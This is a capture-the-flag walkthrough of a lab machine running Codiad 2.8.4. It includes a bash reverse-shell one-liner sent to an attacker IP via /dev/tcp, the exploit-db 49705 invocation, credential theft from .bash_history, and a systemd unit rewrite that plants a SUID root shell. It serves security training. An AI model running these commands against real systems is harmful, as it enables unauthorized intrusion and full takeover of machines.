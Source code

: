 
##Footprinting
first of all as always, we begin with an nmap scan 
```
Command used: nmap -sC -sV -p- -oN scan -T4 -P0 10.10.45.157
```

so from the result of our scan we can see that we a couple of ports open on our target machine.
- 21 - FTP
- 22 - SSH
- 80 -HTTP(Apache)
- 62337 - (Apache)
![image](/posts/res/ide_1.png)

##Enumerating FTP(port 21)

so on port 21 we have anonymous login enabled. lets start by checking that out.
```
Command used: ftp <target IP>
Username: Anonyomus
Password: <Leave_blank>
```

![image](/posts/res/ide_2.png)
from listing all directories we found a file called ***-*** let's download it to our machine.
```
command used: cd ...
get -
```

now lets cat out the content of the file :
```
cp - file
cat file
```
![[/posts/res/ide_w.png]]
so from the content of the file we now have a Username and password.
username: john
password: password

##Enumerating HTTP(Port 80 and 62337)
since we have a web server running on port 80, lets head over to our web browser.
![image](/posts/res/ide_3.png)

we have a default server page. so let's have try to enumerate for sub directories using Gobuster to see what we can find.

```
command used: gobuster dir -u http://10.10.164.209/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

```
so i ran the scan for a while and found nothing interesting now lets move to the next apache server.

so heading over to the server on our browser we see a login screen ![image](/posts/res/ide_5.png)


earlier on from our nmap scan we could the that the server runs the following application ***Codiad 2.8.4*** . let's try  looking up this application on google.
![image](/posts/res/ide_6.png)
from our result we can see that this version of the application is vulnerable to ***Remote Code Execution***. now using this information let's try to get a foothold on the target machine.

we can download the exploit from here [[https://www.exploit-db.com/exploits/49705]]  or you can simply use the searchsploit tool on your kali machine.
![image](/posts/res/ide_7.png)

to get the exploit  script using searchsploit use the following command:
```
 searchsploit -m 49705 
```

![image](/posts/res/ide_8.png)

to run this exploit code we can make use of the following command: 
```
python 49705.py http://10.10.164.209:62337/ john password <Target_IP> 4444 linux

```
![image](/posts/res/ide_9.png)
next we must ensure we have set up our listener using netcat: 
command used : 
```
echo 'bash -c "bash -i >/dev/tcp/<local_machine_IP>/4445 0>&1 2>&1"' | nc -lnvp 4444

```
![image](/posts/res/ide_10.png)
setup another listener 
```
command used: nc -lnvp 4445
```

with all this setup we can now run the exploit.
![image](/posts/res/ide_11.png)
we have successfully gained a shell but we faced a challenge while trying to get the user flag. it appears that the user.txt file can only be access by the owner of the file called "drac". now lets find a way to horizontally escalate our privilege to the user drac.

to do this we can check the bash history file located in drac's directory 

```
command used: cd drac
ls -la
cat .bash_history
```
![image](/posts/res/ide_12.png)
we found drac's password in the history file now let's try to login via ssh with  the credentials.

![image](/posts/res/ide_13.png)
we successfully logged in as drac now let's view the file 
```
command used: cat user.txt
```
![image](/posts/res/ide_14.png)

##Privilege Escalation 
so if we run the id command we can see that drac is a part of the sudo group.- `drac` can run the following command with sudo – `/usr/sbin/service vsftpd restart`
- `drac` can write to the vsftpd.service file – `/lib/systemd/system/vsftpd.service`

- `/etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf` contains `AdminIdentities=unix-group:sudo;unix-group:admin` (Default in Ubuntu)![image](/posts/res/ide_15.png)

Since 'drac' belongs to the sudo group, we can utilize Ubuntu's default Polkit rule to elevate our privileges.

now since we have privilege to edit the vsftpd service file, we can modify the file to run the following command:
- `cp /bin/bash /tmp/root_shell`
- `chmod +xs /tmp/root_shell`
This sequence of commands duplicates `/bin/bash` to `/tmp/root_shell` and configures the Set User ID (SUID) bit on it. This would enable us to execute the binary with the privileges of its owner, namely root.

Here is the revised process:

1. Edit the file located at `/lib/systemd/system/vsftpd.service`.
2. Insert the following code into the file:


```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'cp /bin/bash /tmp/root_shell; chmod +xs /tmp/root_shell'
#ExecReload=/bin/kill -HUP $MAINPID
#ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

![image](/posts/res/ide_16.png)

once you have made changes to the file save and restart the daemon using the following command: `systemctl daemon-reload`
![image](/posts/res/ide_17.png)

As a result, we were able to initiate our customized service by executing `sudo /usr/sbin/service vsftpd restart`. As anticipated, a file named `root_shell` was present within the `/tmp` directory. We utilized this file to spawn a root shell by executing `./tmp/root_shell -p`.


![image](/posts/res/ide_18.png)

and finally we are root!!!!!
